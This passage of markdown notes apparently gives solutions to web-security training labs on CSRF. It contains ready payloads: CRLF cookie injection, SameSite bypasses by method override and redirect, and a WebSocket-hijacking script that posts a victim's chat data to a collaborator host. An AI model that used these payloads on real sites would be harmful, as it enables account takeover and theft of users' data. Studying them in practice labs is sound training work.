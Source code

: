 * Just delete CSRF token.
* Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
More complex cases:
1. CSRF where token is tied to non-session cookie  
Observe LastSearchTerm in Set-Cookie header. Change it to `/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY` and create the next payload to set this key to victim:
```
<script>
location="https://xxx.web-security-academy.net/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY"
</script>
```
Now simply generate CSRF PoC and send it.
2. CSRF where token is duplicated in cookie  
Same as previous:
```
/?search=w%0d%0aSet-Cookie:%20csrf=kek%3b%20SameSite=None
```
3. SameSite Lax bypass via method override  
Change request method to GET and add `_method=POST` parameter:
```
/my-account/change-email?email=ww%40gmail.com&_method=POST
```
4. SameSite Strict bypass via client-side redirect  
```
/post/comment/confirmation?postId=7../../../my-account/change-email?email=ww%40gmail.com%26submit=1
```
5.  SameSite Strict bypass via sibling domain  
Observe there is `cms-xxx.web-security-academy.net` domain. Craft the next payload and full URL-encode it.
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Create next payload and send it to victim:
```
<script>
location="https://cms-xxx.web-security-academy.net/login?username=URL-ENCODED-PAYLOAD&password=peter"
</script>
```
6. SameSite Lax bypass via cookie refresh  
Create CSRF PoC. Send it to victim once, wait 5-10 seconds and send it again.
7. CSRF Refresh Password isloggedin true  
Observer username and stayloggedin values in cookie  
Create POST request to change password or email and add `X-Forwarded-Host`, `X-Host`, `X_Forwarded-Server` pointing to exploit server  
Add a parameter `username=administrator` to request's body and send it  
## Clickjacking
